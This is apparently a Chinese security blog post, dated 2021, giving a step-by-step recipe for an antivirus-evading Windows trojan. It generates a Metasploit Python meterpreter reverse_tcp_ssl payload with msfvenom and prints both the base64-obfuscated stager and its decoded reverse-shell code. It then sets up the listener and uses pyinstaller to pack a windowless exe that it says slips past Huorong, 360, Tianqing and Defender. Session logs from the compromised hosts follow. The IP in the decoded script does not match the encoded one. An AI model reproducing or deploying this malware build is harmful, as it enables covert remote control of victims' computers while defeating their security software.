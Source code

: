 ```yaml
---
layout:     post            # 使用的布局（不需要改）
title:      MSF Windows免杀   # 标题
subtitle:   这里分享的是截止2021年9月7号测试仍免杀的Windows10木马，过火绒、360、天擎、Win10 defender。  # 副标题
date:       2021-09-07      # 时间
author:     K4ys0n           # 作者
header-img: img/post-bg-coffee.jpeg    # 这篇文章标题背景图片
catalog:    true            # 是否归档
tags:                       # 标签
    - 免杀
    - Windows
    - 网络安全
    - MSF
    - 木马
---
```


# 前言
本次目标是简单测试能过一般杀软的MSF木马，火绒、天擎、360、Win10 Defender等。

这里会用到MSF的一个payload：`python/meterpreter/reverse_tcp_ssl`。

PS：另外测了`python/meterpreter/reverse_https`也可以免杀，所以payload内容可能稍微没有太大的关系，主要还是pyinstaller打包。


# 步骤
## 1. msfvenom生成payload
kali中：
```shell
msfvenom -p python/meterpreter/reverse_tcp_ssl -a python --platform python LHOST=[你的的IP] LPORT=[你的端口] -f raw -o test.py
```
生成的test.py文件，打开如下：
```python
exec(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('aW1wb3J0IHpsaWIsYmFzZTY0LHNzbCxzb2NrZXQsc3RydWN0LHRpbWUKZm9yIHggaW4gcmFuZ2UoMTApOgoJdHJ5OgoJCXNvPXNvY2tldC5zb2NrZXQoMiwxKQoJCXNvLmNvbm5lY3QoKCcxOTIuMTY4LjEwMC4xMjknLDEwMTAxKSkKCQlzPXNzbC53cmFwX3NvY2tldChzbykKCQlicmVhawoJZXhjZXB0OgoJCXRpbWUuc2xlZXAoNSkKbD1zdHJ1Y3QudW5wYWNrKCc+SScscy5yZWN2KDQpKVswXQpkPXMucmVjdihsKQp3aGlsZSBsZW4oZCk8bDoKCWQrPXMucmVjdihsLWxlbihkKSkKZXhlYyh6bGliLmRlY29tcHJlc3MoYmFzZTY0LmI2NGRlY29kZShkKSkseydzJzpzfSkK')[0]))
```
将代码中base64编码的内容进行解码，kali的终端中解码如下：
```shell
echo 'aW1wb3J0IHpsaWIsYmFzZTY0LHNzbCxzb2NrZXQsc3RydWN0LHRpbWUKZm9yIHggaW4gcmFuZ2UoMTApOgoJdHJ5OgoJCXNvPXNvY2tldC5zb2NrZXQoMiwxKQoJCXNvLmNvbm5lY3QoKCcxOTIuMTY4LjEwMC4xMjknLDEwMTAxKSkKCQlzPXNzbC53cmFwX3NvY2tldChzbykKCQlicmVhawoJZXhjZXB0OgoJCXRpbWUuc2xlZXAoNSkKbD1zdHJ1Y3QudW5wYWNrKCc+SScscy5yZWN2KDQpKVswXQpkPXMucmVjdihsKQp3aGlsZSBsZW4oZCk8bDoKCWQrPXMucmVjdihsLWxlbihkKSkKZXhlYyh6bGliLmRlY29tcHJlc3MoYmFzZTY0LmI2NGRlY29kZShkKSkseydzJzpzfSkK' | base64 -d > payload.py
```
解码后的内容保存在payload.py文件中，内容如下：
```python
import zlib,base64,ssl,socket,struct,time
for x in range(10):
    try:
        so=socket.socket(2,1)
        so.connect(('192.168.0.1',10101))
        s=ssl.wrap_socket(so)
        break
    except:
        time.sleep(5)
l=struct.unpack('>I',s.recv(4))[0]
d=s.recv(l)
while len(d)<l:
    d+=s.recv(l-len(d))
exec(zlib.decompress(base64.b64decode(d)),{'s':s})
```

## 2. MSF监听器
在kali中MSF起一个监听器：
```shell
root@kali:~/test# msfconsole
...
...
msf6 > handler -H 0.0.0.0 -P 10101 -p python/meterpreter/reverse_tcp_ssl
[*] Payload handler running as background job 0.
```

## 3. 测试一下payload能否正常上线
在靶机（本地PC）中运行payload.py：
```cmd
python3 payload.py
```
可以看到msf中上线了：
```shell
msf6 > handler -H 0.0.0.0 -P 10101 -p python/meterpreter/reverse_tcp_ssl 
[*] Payload handler running as background job 0.
msf6 > 
[*] Started reverse SSL handler on 0.0.0.0:10101 
[*] Sending stage (39324 bytes) to 192.168.0.1
[*] Meterpreter session 1 opened (192.168.0.129:10101 -> 192.168.0.1:58972) at 2021-09-07 10:04:30 +0800

msf6 > 

```

## 4. 打包成exe过杀软
需要先在Windows环境中安装python3，并安装pyinstaller库。
```shell
pip install pyinstaller
```
然后在Windows环境中pyinstaller才会生成exe文件：
```shell
pyinstaller -Fw payload.py --hidden-import imp
```
PS：`hidden-import`参数使编译成exe时不导入imp库，否则会报错`No module named 'imp'`，原因是imp库在python3.4以后开始准备弃用，后续用importlib库代替，但payload中不需要用到这个库，所以直接屏蔽即可。
另外`w`参数可以使编译后的exe双击运行时无弹窗。

*PS2：打包成elf*
只需在linux环境下用pyinstaller打包即可生成elf，同4。

## 6. 上线测试
在靶机中运行exe文件，在kali的MSF监听中可以看到上线：
```shell
msf6 > [*] 192.168.0.1 - Meterpreter session 1 closed.  Reason: Died

[*] Sending stage (39328 bytes) to 192.168.0.1
[*] Meterpreter session 2 opened (192.168.0.129:10101 -> 192.168.0.1:62799) at 2021-09-07 10:15:06 +0800

msf6 > sessions

Active sessions
===============

  Id  Name  Type                        Information              Connection
  --  ----  ----                        -----------              ----------
  2         meterpreter python/windows  83400 @ DESKTOP-PENGDTG  192.168.0.129:10101 -> 192.168.0.1:62799 (192.168.100.1)

msf6 > 

```

# 总结
本次使用了MSF的`payload/python/meterpreter/reverse_tcp_ssl`模块，通信会进行ssl加密；其次，通过pyinstaller打包成exe之后文件会变成6、7MB，稍微有点大。